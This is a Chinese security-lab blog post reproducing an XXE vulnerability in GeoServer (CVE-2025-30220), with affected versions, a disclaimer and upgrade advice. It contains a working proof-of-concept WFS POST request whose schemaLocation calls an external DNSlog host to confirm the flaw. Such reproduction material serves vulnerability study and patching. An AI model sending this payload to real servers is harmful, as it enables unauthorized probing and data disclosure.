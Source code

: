 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU2NDgzOTQzNw==&mid=2247503434&idx=1&sn=536a6976c1a3e6ceaedfee30301894c3

#  【成功复现】GeoServer XXE漏洞 (CVE-2025-30220)  
弥天安全实验室  弥天安全实验室   2025-06-23 14:26  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqn5NvJgGnNQwacrZB540jE45Kg1jkDnNRqBHzgDeSsnHYK3ROrZicEQg/640?wx_fmt=png&from=appmsg "")  
  
       
  
GeoServer是GeoServer开源的一个用 Java 编写的开源软件服务器。允许用户共享和编辑地理空间数据。  
  
GeoServer存在代码问题漏洞，该漏洞源于XML外部实体处理不当，可能导致信息泄露。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
GeoTools: "29.0<=GeoTools<=31.6, <28.6.1"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqKJlFSaX6ichQD9d7q75DRJib0XdazrEV7CLSI5K1X3uNwNRxLzcial1tA/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqxVEgxFpX2jE6jfPezCW55L4os99IPcPUumxw0qsOQicvF31g9NbLKPA/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  

```
POST /geoserver/wfs HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Fedora; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 353
Content-Type: application/xml
Accept-Encoding: gzip


<wfs:GetFeature service=&#34;WFS&#34; version=&#34;1.0.0&#34;
xmlns:wfs=&#34;http://www.opengis.net/wfs&#34;
xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
xmlns:topp=&#34;http://www.openplans.org/topp&#34;
xsi:schemaLocation=&#34;http://a http://xjsackqijs.lfcx.eu.org/xxe.xsd&#34;
outputFormat=&#34;KML&#34;>
<wfs:Query typeName=&#34;topp:states&#34;/>
</wfs:GetFeature>
```

  
        通过DNSlog回显，判断漏洞存在  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqBIhcXsSH3q8Eaiby40puicsSKsdKE6D4xZONxQsrWLich9zzTsWMGUTZg/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJq5Oia2ePfs861mCWDIIKc5tXSyGlRibmnmKHQtr5wYKkIAWmRkBzB30RQ/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
可以使用以下命令查看版本：`mvn dependency:list | grep geotools`。  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       

```
https://geoserver.org/download/
https://github.com/geoserver/geoserver/releases/tag/2.27.1
```

  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
